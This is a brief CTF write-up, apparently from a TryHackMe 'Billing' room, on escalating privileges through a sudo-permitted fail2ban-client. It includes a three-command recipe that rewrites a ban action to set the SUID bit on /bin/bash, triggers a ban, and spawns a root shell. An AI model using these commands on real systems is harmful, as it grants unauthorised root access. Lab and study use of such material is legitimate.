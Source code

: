 In this note I will go over what is fail2ban, how it works, it's moving parts and how to use them to escalate privileges.
The reason being is, the tool is popular and I encountered it in "Billing CTF" on THM ctf rooms.

This note will be a watered down howto of what I learned from this lovely article.
https://juggernaut-sec.com/fail2ban-lpe/

```shell
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'

sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4

/bin/bash -p
```